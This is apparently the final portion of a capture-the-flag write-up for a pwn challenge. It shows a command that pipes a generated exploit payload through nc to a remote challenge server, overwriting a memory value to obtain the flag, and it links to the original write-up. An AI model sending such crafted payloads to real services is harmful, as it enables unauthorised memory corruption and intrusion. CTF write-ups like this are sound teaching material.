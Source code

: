 ```bash  
$ python gen.py A8A8D1D0F0e9d4000050550000A8A8F3666c6167 | nc 139.144.30.173 9999  
Overwrite the value at 0x5555555581b0 so it's 'flag'  
Your super secret xor key is 0x555555559  
Enter your program:  
chctf{UR_b3st_and_w1sest_REfuge_fR0m_All_TRoubl3s_is_in_ur_science}  
```

And win.. we got the flag.

Flag `chctf{UR_b3st_and_w1sest_REfuge_fR0m_All_TRoubl3s_is_in_ur_science}`

Original writeup (https://github.com/D13David/ctf-
writeups/blob/main/cyberheroines23/pwn/ada_lovelace/README.md).